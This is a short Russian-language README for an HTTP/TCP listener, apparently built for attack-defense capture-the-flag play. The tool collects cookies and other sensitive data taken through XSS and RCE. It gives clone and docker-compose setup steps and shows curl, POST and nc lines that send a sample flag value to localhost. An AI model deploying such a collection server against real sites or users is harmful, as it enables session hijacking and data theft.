 # Listener

HTTP/TCP листенер для кражи кук, других чувствительных данных от XSS и RCE. 
## Установка
>git clone git@github.com:OmskHackers/listener.git

>docker-compose up -d

## Возможности
- Сохранение параметров в URL 
- Сохранение загружаемых файлов 
- Сохранение сырых данных передаваемых в POST запросах
- Сохранение любых сырых данных переданных на сокет сервер (1337 порт)
 ##  Как работает ?
 >curl http://localhost:4444/?FLAG1234567890=

 >curl -X POST --data "FLAG1234567890=" http://localhost:4444/

 > echo "FLAG1234567890=" | nc -q 1 localhost 1337
## TODO
- Добавить экстрактор флагов
- Оптимизировать экстрактор, чтобы не читал повторные output файлы (через редиску)
- Настроить возможность настройки формата флага через ENV
- Прикрутить клиент фермы к экстрактору, чтобы автоматизировать отправку флагов
